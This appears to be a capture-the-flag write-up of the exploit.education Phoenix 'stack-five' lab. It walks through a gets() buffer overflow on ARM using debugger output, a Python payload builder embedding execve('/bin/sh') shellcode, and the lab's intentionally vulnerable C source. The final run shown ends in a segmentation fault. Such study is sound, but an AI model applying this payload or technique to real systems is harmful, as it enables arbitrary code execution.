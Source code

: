 # Phoenix Stack5
### Result
### Learning
This challenge started with a question:

> As opposed to executing an existing function in the binary, this time we’ll be introducing the concept of “shell code”, and being able to execute our own code.

You had to overwrite the `return address` and jump to self-written / downloaded `shellcode`.

Overwriting the `return address` and running `shellcode` was simpler on `stack5.c`, compared to a modern compiled C program.  It was not protected with `ASLR`, `Stack Guards` and it had an `executable stack`.

The `Buffer Overflow` was possible due to the code using the vulnerable C API `gets()`.

##### Run the code
```
$ ./stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education
AAA
```  
##### Symbols
```
// cut down for brevity
[0x000103b4]> is~FUNC
072 0x000004e8 0x000104e8 GLOBAL   FUNC   36 start_level
079 0x0000050c 0x0001050c GLOBAL   FUNC   52 main
002 0x00000378 0x00010378 GLOBAL   FUNC   16 imp.gets
003 0x00000384 0x00010384 GLOBAL   FUNC   16 imp.puts
```
### Calculate buffer to overflow
```
/ (fcn) sym.start_level 36
|           0x000104f0      80d04de2       sub sp, sp, 0x80   <-- space for local var
|           0x000104f4      84304be2       sub r3, fp, 0x84   <-- same as above
|           0x000104f8      0300a0e1       mov r0, r3                  ; char *s
|           0x000104fc      9dffffeb       bl sym.imp.gets             ; char *gets(char *s)
```
Bytes allocated setting up the `start_level Stack` suggested a `128 buffer` and a `4 byte pointer`.  I guessed the `4 byte pointer` was the address of the buffer, based on what Radare2 showed.

### Debugger Analysis
##### Verify the Buffer size
```
gef> b *start_level + 24      <-- // breakpoint on first instruction after gets()

gef> disas start_level
Dump of assembler code for function start_level:
   0x000104e8 <+0>:	push	{r11, lr}
   0x000104ec <+4>:	add	r11, sp, #4
   0x000104f0 <+8>:	sub	sp, sp, #128	; 0x80.      <-- re-affirm size of buffer
   0x000104f4 <+12>:	sub	r3, r11, #132	; 0x84
   0x000104f8 <+16>:	mov	r0, r3
   0x000104fc <+20>:	bl	0x10378 <gets@plt>
=> 0x00010500 <+24>:	nop			; (mov r0, r0)
   0x00010504 <+28>:	sub	sp, r11, #4
   0x00010508 <+32>:	pop	{r11, pc}
```
You could read the disassembled code to see the Char buffer size.
```
gef> p/u 0x80
$5 = 128
```
##### Find the Return Address in the Stack
```
gef> disas main
...
   0x00010528 <+28>:	bl	0x104e8 <start_level>
   0x0001052c <+32>:	mov	r3, #0     <-- the return address
```
Run the code:
```
gef> r < AAAA

gef> find $sp, +200,0x0001052c
0xfffefd74
1 pattern found.

gef> p/u 0xfffefd74 - 0xfffefcf0
$11 = 132

$sp  : 0xfffefcf0
$r11 : 0xfffefd74

// alternative way..

gef> p/u $fp - $sp      
$1 = 132
```
##### Overwrite the Return Address
```
gef> r <<< $(python -c 'print "A"*132 + "\x42\x42\x42\x42"')

$ cat ~/129chars | wc -c
129     <- due to a \n not being removed

$ cat ~/128chars | ./stack-five
Program received signal SIGSEGV, Segmentation fault.

$ cat ~/128chars | wc -c
128

cat ~/128chars | ./stack-five
Illegal instruction
```
##### Write / find shellcode
I practiced writing my own shellcode:
https://github.com/rustymagnet3000/bits_bytes_playground/blob/master/example_28b_C_execve_shellcode.md

##### Construct Payload
```
#!/usr/bin/env python

import sys

location_return_addr = 132
l_nop_padding = 60
shellcode = "\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x02\xa0\x49\x40\x52\x40\xc2\x71\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68\x78"

if __name__ == "__main__":
    padded_shellcode = "\x90" * l_nop_padding
    padded_shellcode += shellcode
    r_nop_padding = location_return_addr - len(padded_shellcode)
    padded_shellcode += "\x90" * r_nop_padding

    if (len(padded_shellcode)) != location_return_addr:
        print("Padding error")
        exit()

    for byte in padded_shellcode:
        sys.stdout.write("\\x" + byte.encode("hex"))
    print ""
```
##### Construct Payload
```
python payload.py > payload
```
On my ARM-emulating terminal it did not.I kept hitting:

`UnicodeEncodeError: 'ascii' codec can't encode characters in position 0-59`

That is why I moved to using `byte.encode`.

##### The Payload
```
$ cat payload
\x90\x90\x90\......<shellcode in here. Removed for brevity>........\x90\x90\x90
```
##### Run Payload
```
cat ~/payload | ./stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education
Segmentation fault
```
##### Source code
```
/*
 * phoenix/stack-five, by https://exploit.education
 *
 * Can you execve("/bin/sh", ...) ?
 *
 * What is green and goes to summer camp? A brussel scout.
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void start_level() {
  char buffer[128];
  gets(buffer);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```
